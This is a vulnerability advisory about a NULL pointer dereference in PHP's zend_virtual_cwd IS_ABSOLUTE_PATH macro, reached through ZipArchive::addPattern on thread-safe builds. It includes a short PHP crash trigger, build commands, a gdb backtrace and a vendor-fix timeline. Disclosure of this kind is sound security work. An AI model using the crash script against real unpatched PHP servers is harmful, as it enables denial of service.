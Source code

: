 ```yaml
---
title: "PHP NULL pointer dereference in zend_virtual_cwd (v. master-Git-2016-07-23)"
date: 2016-07-23 00:00:00
preview: ""
---
```


* _Author_: Martino Sani
* _Software_: PHP
* _Version_: master-Git-2016-07-23
* _Release date_: 2016-07-23
* _CVE_: -
* _Reference_: https://bugs.php.net/bug.php?id=72660

One of the `IS_ABSOLUTE_PATH` macro in `zend_virtual_cwd.h` file does not verify that the path is not null. This could lead to a null pointer dereference issue.
I triggered the issue through `ZipArchive::addPattern` function and ZTS (Zend Thread Safety) enabled, but maybe it could be triggered via different vectors.

[ZipArchive.AddPatter](http://php.net/manual/en/ziparchive.addpattern.php) reports that the default value of $path argument is `.` but in my tests it was null.

`zend_virtual_cwd.h (line 112)`:
```c
#ifndef IS_ABSOLUTE_PATH
#define IS_ABSOLUTE_PATH(path, len) \
        (IS_SLASH(path[0]))
#endif
```
`php_zip.c (line 609)`:
```c
#ifdef ZTS
if (!IS_ABSOLUTE_PATH(path, path_len)) {
   result = VCWD_GETCWD(cwd, MAXPATHLEN);
```
# PHP build
```
./buildconf --force
./configure --enable-zip --enable-maintainer-zts
make && make install
```
# Test script
```
$zip = new ZipArchive();
$zip->open("foo.zip", ZIPARCHIVE::CREATE);
$zip->addPattern("/\./");
$zip->close();
?>
```
# Expected result
PHP interpreter should not crash.

# Actual result
```
Program received signal SIGSEGV, Segmentation fault.

0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
warning: Source file is more recent than executable.
610             if (!IS_ABSOLUTE_PATH(path, path_len)) {

(gdb) bt

#0  0x0000000001f7e049 in php_zip_pcre (regexp=<optimized out>, path=0x0, path_len=<optimized out>, return_value=<optimized out>) at ext/zip/php_zip.c:610
#1  0x0000000001f9cb8b in php_zip_add_from_pattern (execute_data=<optimized out>, return_value=<optimized out>, type=<optimized out>) at ext/zip/php_zip.c:1669
#2  0x000000000276ddd4 in ZEND_DO_FCALL_SPEC_RETVAL_UNUSED_HANDLER (execute_data=<optimized out>) at Zend/zend_vm_execute.h:970
#3  0x0000000002673052 in execute_ex (ex=<optimized out>) at Zend/zend_vm_execute.h:432
#4  0x0000000002673c2f in zend_execute (op_array=<optimized out>, return_value=<optimized out>) at Zend/zend_vm_execute.h:474
#5  0x000000000242b711 in zend_execute_scripts (type=<optimized out>, retval=<optimized out>, file_count=<optimized out>) at Zend/zend.c:1447
#6  0x000000000202ccce in php_execute_script (primary_file=0x7fffffffcd20) at main/main.c:2533
#7  0x0000000002a97fe3 in do_cli (argc=<optimized out>, argv=<optimized out>) at sapi/cli/php_cli.c:990
#8  0x0000000002a9385c in main (argc=3, argv=0x60300000ee30) at sapi/cli/php_cli.c:1378

(gdb) info args

regexp = <optimized out>
path = 0x0
```

# Notes
* 2016-07-23: Vendor notification.
* 2016-07-24: Vendor fixes the issue.
	
The author is not responsible for the misuse of the information provided in this advisory.